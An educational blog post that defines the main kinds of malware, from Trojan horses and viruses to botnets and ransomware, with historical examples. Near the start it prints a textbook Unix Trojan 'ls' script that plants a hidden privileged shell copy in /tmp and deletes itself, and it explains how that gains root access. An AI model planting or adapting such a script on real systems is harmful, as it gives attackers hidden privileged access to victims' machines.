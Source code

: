 ```yaml
---
title: Gentle Introduction to Malicious Software or Malware
date: 2020-01-15 00:00:00 Z
categories:
- security
layout: post
comments: true
---
```


#### Definition 
-----------------------

> Malicious logic, more commonly called malware, is a set of instructions that cause a site’s security policy to be violated.[^fn1]

Malware is the swiss-army knife of cyber criminals and any other adversary to your corporation or organization[^fn2]. In earlier days, when UNIX systems were popular, the hackers found a new way to get access to victims machine with a little piece of malicious code like the one below

~~~shell
#! /bin/sh 

# make a privileged, hidden copy of the shell (command interpreter) 
cp /bin/sh /tmp/.xxsh 
chmod o+s, w+x /tmp/.xxsh

# do what the victim thinks is *all* you’re doing 
ls $* 

# delete this file 
rm ./ls
~~~


When this file is saved with the file name 'ls' is victim's home directory, and if the root user in victim's machine executes 'ls' command, above script will run and it creates a copy of the shell in /tmp/ directory with the root previleges. Above script also deletes the file and thus leaves no trail. Now the copy of shell can be used for all non-sensible things by the hacker.

But, this trick won't work anymore as the current directory '.' is not in the system path variable by default in any latest LINUX systems. But nothing stops you from adding '.' into the $PATH variable.

-----------------------
#### Types of malwares and its definitions
-----------------------

Further in this post, let's see the various types of malware and its formal definitions

   1.   A **Trojan horse** is a program with an overt (documented or known) purpose and a covert (undocumented or unexpected) purpose. A Trojan horse is a program with an overt (documented or known) purpose and a covert (undocumented or unexpected) purpose. A *rootkit* is a pernicious trojan hourse. It hides in the system and can avoid detection. A trojan hourse can be a *propagating* one as well.

   2.   A **computer virus** is a program that inserts (a possibly transformed version of) itself into one or more files and then performs some (possibly null) action. 
        -   A boot sector infector is a virus that inserts itself into the boot sector of a disk. Eg. Brain Virus of IBM Machine. 
        -   An executable infector is a virus that infects executable programs. Eg. Jerusalem Virus (Also called Israeli Virus).
        -   A multipartite virus is one that can infect both boot sectors and applications.
        -    A macro virus is a virus composed of a sequence of instructions that is interpreted, rather than executed directly. Eg. Melissa Virus of MSWord97/98 docs.
        -    A terminate and stay resident (TSR) virus is one that stays active (resident) in memory after the application, bootstrapping, or macro interpretation has terminated.
        -    Stealth viruses are viruses that conceal the infection of files.
        -   An encrypted virus is a virus that encrypts all of the virus except the cryptographic key and a decryption key.
        -   A metamorphic virus is a virus that changes its internal structure but performs the same actions each time it is executed. Eg. Zmist(W95)
        -   
   3.   A **computer worm** is a program that copies itself from one computer to another. Eg. Stuxnet worm, the Internet Worm, etc.
   
   4.   A **bot** is malware that carries out some action in coordination with other bots. The attacker, called a botmaster, controls the bots from one or more systems called command and control (C&C) servers or motherships. They communicate over paths called C&C channels. A collection of bots is a **botnet**. Eg. Torpig, GTBot, etc.
        -   Botnet developers discovered how to use this to increase the difficulty of
        locating bots, especially those used as botmasters. The idea is to associate a list of IP addresses with a particular host name. The binding between the host name and the IP address changes rapidly, with the next IP address selected from that list. These botnets are called IP flux botnets

   5.   A **bacterium** or a **rabbit** is a program that absorbs all of some class of resource.
   
   6.   A **logic bomb** is a program that performs an action that violates the security policy when some external event occurs.
   
   7.   **Adware** is a Trojan horse that gathers information for marketing purposes and displays advertisements, often based on the gathered information.
   
   8.   **Spyware** is a Trojan horse that records information about the use of a computer, usually resulting in confidential information such as keystrokes, passwords, credit card numbers, and visits to web sites. The information may be transmitted to a third party, stored for later transmission, or stored for retrieval by a third party. Eg. Pegasus
   
   9.   **Ransomware** is malware that inhibits the use of resources until a ransom, usually monetary, is paid. Eg. Wannacry, CryptoLocker, etc.

Today's malware is combination of various types of above mentioned ones and detecting whether a program is malware or not is **undecidable** as per Rice's Theorem.[^fn3]. And the sheer number of various malware made it impractical to design a rule based system to classify them as malware as best as possible. Solution to this mess is Machine Learning based detection methods. However, the best method also doesn't guarantee that perfect classification. The aim is to reduce the false positives and false negetives in a machine learning based model for classification of malware. 

More work related to ML based malware analysis will be discussed in future blogs.

-----------------------
#### References:
-----------------------
[^fn1]: Computer Security - Arts and Science, *Matt Bishop* (Ch23 of 2nd Edition)
[^fn2]: https://cuckoosandbox.org
[^fn3]: https://en.wikipedia.org/wiki/Rice%27s_theorem
<!--stackedit_data:
eyJoaXN0b3J5IjpbMzA0MDczNTU0XX0=
-->